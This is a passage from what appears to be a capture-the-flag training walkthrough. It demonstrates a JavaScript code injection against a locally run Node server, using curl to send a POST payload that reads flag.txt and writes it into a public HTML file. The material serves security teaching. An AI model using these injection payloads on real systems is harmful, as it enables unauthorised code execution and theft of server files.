 ```shell
echo '"); console.log("injected");//' | jq -aR .
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-hz24gns7ly]─[~]
└──╼ [★]$ echo '"); console.log("injected");//' | jq -aR .

"\"); console.log(\"injected\");//"
```

At last, students need to test the payload by sending it to the `server.js` running locally:

Code: shell

```shell
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); console.log(\"successful injection\"); //"}'
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-hz24gns7ly]─[~]
└──╼ [★]$ curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); console.log(\"successful injection\"); //"}'

<!DOCTYPE html>

<SNIP>
```

Checking the Node `server.js` logs will show the string "successful injection" printed:

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-hz24gns7ly]─[~]
└──╼ [★]$ unzip -qq nodejs-server-sourcecode.zip && node server.js
[nodejs-server-sourcecode.zip] admin.html password: 

Server is running on http://0.0.0.0:21440
successful injection
```

Now that students know the payload is functional, they need to inject JavaScript code to read the flag file `flag.txt` and write it into `denied.html`; to do so, students need to write JavaScript code that will read the flag and writes it into another file in a single line to fit a JSON payload; one example to do so is:

Code: javascript

```javascript
var fs = require("fs"); fs.readFile("flag.txt", function(err, data) {fs.writeFile("denied.html", data, function (err) {if (err) throw err;});})
```

Students need to add `");` at the beginning of the payload and `//` at the end as done to the previous payload:

Code: javascript

```javascript
"); var fs = require("fs"); fs.readFile("flag.txt", function(err, data) {fs.writeFile("denied.html", data, function (err) {if (err) throw err;});});//
```
